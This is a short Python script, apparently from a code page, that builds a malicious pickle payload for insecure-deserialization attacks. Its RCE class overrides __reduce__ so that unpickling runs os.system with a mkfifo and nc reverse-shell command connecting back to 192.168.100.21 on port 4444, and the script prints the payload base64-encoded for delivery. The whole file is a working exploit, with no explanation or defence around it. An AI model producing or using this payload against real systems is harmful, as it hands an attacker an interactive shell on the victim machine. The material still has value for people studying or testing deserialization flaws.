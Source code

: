 import pickle
import base64
import os

#test
class RCE:
    def __reduce__(self):
        cmd = ('rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | ' '/bin/sh -i 2>&1 | nc 192.168.100.21 4444 > /tmp/f')
        # cmd = ('pwd')
        return os.system, (cmd,)


if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled))

